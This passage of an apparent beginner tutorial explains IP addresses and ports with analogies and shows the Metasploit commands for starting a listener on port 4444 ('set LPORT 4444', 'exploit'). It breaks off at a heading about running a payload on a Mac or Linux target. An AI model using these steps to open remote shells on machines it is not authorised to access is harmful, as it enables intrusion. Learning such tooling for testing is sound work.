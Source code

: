 Your IP will changed based on what network you are connected to. Kind of how your room switches as you move houses. Its still your room, just a different address

### Set port to listen to

Think of a port, like a space on a parking lot to a building (the building being our computer). There are 65535 total ports. Sometimes one can be reserved for a specific application. Like how a parking spot can be reserved. Port 80 and 443 are for websites. I used 4444 just because its not used by any other software I have.

Make sure this is the same port that is in the payload.

```bash
set LPORT 4444
```

### Start the listener

```bash
exploit
```

![Start Exploit Listener](/assets//one-line/start_listener.gif)

# Running the payload on Mac/Linux

Target running the payload